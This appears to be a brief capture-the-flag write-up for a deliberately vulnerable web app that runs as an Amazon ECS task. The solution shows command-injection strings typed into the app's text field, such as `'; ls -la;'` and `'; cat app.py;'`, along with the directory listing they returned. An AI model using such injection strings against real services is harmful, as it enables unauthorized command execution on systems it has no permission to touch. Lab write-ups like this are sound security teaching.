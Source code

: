 # Source Code

## Description
This vulnerable web application is packaged as a docker image and executed as an Amazon ECS Task. The web app attempts to provide an 'encoded' value for text entered in a text entry field on the page.

## Solution
<details>
 <summary>Show solution</summary>
The challenge is to identify the command injection vulnerability in the application logic and craft appropriate injection strings to identify the flag in the system. Here are the steps I took to solve this challenge:

1. Entered `ls -la'`  
Service Returned: "Internal Server Error"
2. Entered `'; ls -la;'`  
Service Returned:  
 ```ls -la
total 24
drwxr-xr-x 1 root root 4096 Oct 27 02:34 .
drwxr-xr-x 1 root root 4096 Oct 14 03:58 ..
-rw-r--r-- 1 root root  437 Oct 14 03:21 Dockerfile
-rwxr-xr-x 1 root root  643 Oct 14 03:24 app.py
-rw-r--r-- 1 root root 1105 Oct 14 03:58 app.pyc
drwxr-xr-x 2 root root 4096 Oct 13 21:12 templates
```


3. Entered `'; cat app.py;'`  
Service Returned: App source code with clear indications on how to obtain a flag. :)
</details>
